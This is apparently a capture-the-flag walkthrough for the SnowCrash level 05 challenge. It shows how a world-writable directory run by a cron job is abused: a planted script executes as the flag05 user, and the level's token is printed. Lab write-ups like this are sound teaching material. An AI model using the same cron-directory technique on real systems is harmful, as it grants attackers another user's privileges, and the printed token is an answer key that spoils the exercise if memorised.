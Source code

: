 # Level 05

- Once logged in,  `You have new mail.` message shows on the prompt

```
???$ ssh level05@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level05@localhost's password:
You have new mail.
level05@SnowCrash:~$
```

### Why does terminal say: "You have new mail"?
- ref: https://superuser.com/questions/25738/why-does-terminal-say-you-have-mail


```
Somehow you've had a script or something similar deliver mail to your account on your local machine which is stored in /var/mail/$USER...
```

let's checkout `/var/mail/$USER`

```
level05@SnowCrash:~$ cat /var/mail/$USER
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
- above `cron` job does is in every 2nd minute, the script `su -c "sh /usr/sbin/openarenaserver" - flag05` will be run.
	- notice `- flag05`, it runs by the user `flag05`

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$
```

- for every file in `/opt/openarenaserver` directory, it executes the `ulimit -t 5; bash -x "$i"`, and `rm -f "$i"`, which is remove the file that is executed

let's make a script that runs in directory `/opt/openarenaserver`
```
level05@SnowCrash:/opt/openarenaserver$ cat getflag.sh
#!/bin/bash
/bin/getflag > /tmp/flag
...
level05@SnowCrash:/opt/openarenaserver$ chmod +x getflag.sh
```

and `watch` until the flag is created
```
level05@SnowCrash:/opt/openarenaserver$ watch -n 1 cat /tmp/flag
Every 1.0s: cat /tmp/flag                                    Wed May 11 00:24:01 2022

(nothing here)
```
and wait...
```
level05@SnowCrash:/opt/openarenaserver$ watch -n 1 cat /tmp/flag
Every 1.0s: cat /tmp/flag                                    Wed May 11 00:24:01 2022

Check flag.Here is your token : viuaaale9huek52boumoomioc
```
